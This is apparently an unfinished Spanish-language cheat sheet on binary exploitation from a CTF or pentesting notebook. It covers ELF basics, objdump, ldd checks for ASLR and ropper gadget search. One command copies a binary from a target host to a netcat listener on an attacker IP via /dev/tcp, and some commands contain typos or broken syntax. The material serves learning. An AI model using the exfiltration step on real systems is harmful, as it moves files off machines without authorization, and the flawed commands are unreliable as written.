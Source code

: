 # Explotación de binarios (by CUCUxii)

## Índice 
- [Que es un binario](#Inicio)





---------------------------------------------------------------------------
## ¿Que es un binario?

Un binario, es lo que resulta de compilar un código en lenguaje C o java. Este código se ha traducido a bytes, que equivalen a lenguaje máquina, instrucciones 
que van directamente al procesador sin un intermediario (como puede ser con lenguajes interpretados como Python) Por tanto si intentas abrir un binario con 
nano o vim te encontrarás algunas cadenas legibles entre un lío de "@" y "." 
   - Como ya hemos dicho, son todo bytes, asi que si hay un "x41" lo traducirá a ascii como una "A", pero si hay un byte que no tenga dicho traduccion a ascii, 
   nano los escribirá como  estos "@" y ".".
   
Aunque ya hayamos perdido la capacidad de leer el código del binario (si no tenemos su codigo.c sin compilar claro), esas insutrcciones al procesador de las que
habíamos habaldo antes si que son legibles como código de **Ensamblador** o lenguaje de bajo nivel. El ensamblador es más abstracto que un código Python, 
y si lo ves por primera vez, puede asustar un poco. Pero al final se trata de insutrcciones muy simples (que pasaré a explicar en otro post)

---------------------------------------------------------------------------

## Compartir el binario

```console
[10.10.20.20]~$: cat < ./binario > /dev/tcp 10.10.10.10/443; md5sum bianrio 
348235923523958  /opt/bianrio
[cucuxii@parrot]~$: nc -nlvp 443 > binario; md5sum bianrio 
348235923523958  /opt/bianrio  # Ver si coinciden (que no se haya modificado el binario por el camino)
``` 

---------------------------------------------------------------------------

## Conocer el binario

   ### Protecciones:
   Los binarios cuentan con varios tipos de protecciones disponibles, conocer estas es ideal para saber que tipo de ataque podríamos probar
   
```console
[cucuxii@parrot]~$: for i in $(seq 1 20); do ldd ./binario | grep libc | awk 'NF{print NF}' | tr-d '()'; done
# Ver si cambian las direcciones de memoria
``` 
 
 
---------------------------------------------------------------------------

## Objdump

- **Ver la direccion de las funciones**
```console
[cucuxii@parrot]~$: objdump -D ./bianrio | grep "printf"
00000000118b <printf@plt>:    # La direccion de printf (llamada a plt) en el bianrio es 118b
```
- **Ver todas las funciones**
```console
[cucuxii@parrot]~$: objdump -t ./bianrio | grep "text"  # Filtramos por la seccion text que es el codigo ensamblador
000000001172 g F .text     filecount    # La direccion de la funcion "filecount" es 1172
#####  Lo mismo con el resto de funciones
```

---------------------------------------------------------------------------

## Radare2

---------------------------------------------------------------------------

## Ropper

Ropper encuentra los gadgets para programacion "ROP", corre el bianrio una vez para cargar datos en memoria y enontrar las instrucciones.
```pip install ropper```
```console
[cucuxii@parrot]~$: ropper --search "pop rdi" -f ./binario
0x5555558cb: pop rdi, ret
```



